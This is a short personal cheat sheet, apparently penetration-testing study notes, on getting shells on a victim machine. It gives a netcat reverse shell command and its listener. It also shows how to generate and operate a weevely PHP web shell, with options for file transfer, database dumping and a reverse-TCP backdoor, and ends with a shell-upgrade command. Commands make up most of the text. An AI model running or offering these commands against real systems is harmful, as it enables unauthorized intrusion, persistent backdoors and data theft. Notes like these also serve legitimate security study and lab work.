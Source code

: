 ```yaml
---
title: Notes | Shell
author: Zeropio
date: 2022-04-25
categories: [Notes, System]
tags: [bash, linux]
permalink: /notes/system/shell
---
```


# Reverse Shell
If we can execute code in the victim:
```console
... nc -e /bin/sh <ip$ <port$
```

While in the attacker:
```console
$ nc -lvnp <port$
```

In [revshells](https://www.revshells.com/) we can find more.

## Types

| **Type** | **Description** |
|----------|-----------------|
| Reverse shell | Connection to a *listener* in the attacked machine |
| Bind shell | Bind to a port in the attacked machine and waits for the connection |
| Web shell | Runs commands via the web |

## weevely
To generate a shell:
```console
$ weevely generate [password] /home/kali/shell.php
$ weevely http://ip/shell.php [password]
```

We can use **:help** inside the weevely shell to get some functions. We can use **-h** in the weevely function to access more options.
Sometimes we wouldn't be able to execute commands, weevely can help us:
```console
$ :shell_sh -v [option] [command]
```

Some other options are:
- **:file_download [remotepath] [localpath]**: download files
- **:file_upload [localpath] [remotepath]**: upload files
- **:file_read [localpath]**: read a file
- **:sql_console**
- **:sql_dump -host [ip] -lpath [localpath].txt [user] [password]**: dump a db into a file (if the db doesn't have a password we should use **''** instead).
- **:backdoor_reversetcp [lhost] [lport]**: create a reverse shell (we need to add a **;** after each command).
##### If any option doesn't work we can use **-vector [option]** to change the attack.

---

# After a reverse shell...
We can get a interactive shell with the following command:
```console
$ script /dev/null -c bash
```
